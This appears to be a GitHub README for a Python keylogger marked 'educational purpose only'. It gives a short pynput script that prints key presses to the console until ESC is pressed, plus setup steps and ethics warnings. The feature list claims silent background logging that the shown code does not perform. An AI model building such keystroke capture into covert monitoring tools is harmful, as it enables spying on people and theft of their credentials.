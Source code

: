 Keylogger (Educational Purpose Only)

A simple **Keylogger** written in Python using the `pynput` library to capture and log keystrokes. This project is intended for **educational and ethical use only**, such as learning about input handling and monitoring system behavior.

Disclaimer: This tool is for educational use only. Do **not** use it on systems without **explicit permission**. Unauthorized monitoring is illegal and unethical.

Antivirus Warning
Since keyloggers are often flagged as malicious tools, this script may trigger antivirus software. If using for educational purposes, make sure to run in a controlled or virtual environment.

##Features
- Logs all keystrokes in real time
- Can be run in the background silently
- Supports stopping the keylogger with `ESC` key
- Lightweight and simple Python script

##Sample Code (keylogger.py)
from pynput.keyboard import Key, Listener
def on_press(key):
    print(f"{key} pressed")
def on_release(key):
    if key == Key.esc:
        return False  # Stop listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

## 🛠️ Setup Instructions

# Step 1: Create a virtual environment named 'venv'
python3 -m venv venv

# Step 2: Activate the virtual environment
source venv/bin/activate

# Step 3: Install pynput inside the virtual environment
pip install pynput

# step 4: save the code
nano keylogger.py 

# step 4: Run the script with
python keylogger.py


Note
Do not use this on anyone else's computer.
Respect privacy and ethical boundaries.
Learn responsibly.
